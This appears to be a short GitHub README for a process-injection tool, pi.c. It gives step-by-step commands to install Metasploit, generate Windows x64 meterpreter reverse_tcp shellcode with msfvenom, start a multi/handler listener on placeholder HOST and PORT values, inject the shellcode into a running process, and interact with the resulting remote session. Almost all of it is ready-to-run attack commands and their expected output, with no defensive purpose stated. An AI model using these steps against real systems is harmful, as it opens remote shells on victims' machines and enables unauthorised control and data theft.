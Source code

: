 # process injection

- to run `pi.c`, first create an exception for current folder
- install metasploit on your linux:

```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
```

- generate shell code running this command in your linux system:

```bash
msfvenom --platform windows --arch x64 -p windows/x64/meterpreter/reverse_tcp LHOST={{HOST}} LPORT={{PORT}} EXITFUNC=thread -f c --var-name=moh3aPuke
```

- then configure metasploit:

```txt
msfconsole

msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set lhost {{HOST}}
msf6 exploit(multi/handler) > set lport {{PORT}}
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run -j
```

- build and run the `pi.c` with the process ID as an argument
- on the linux shell, you should see:

```txt
[*] Meterpreter session (int) opened (local address -> remote address) at (timestamp)
```

- start interacting with the session by running:

```txt
msf6 exploit(multi/handler) > sessions -i 1
```
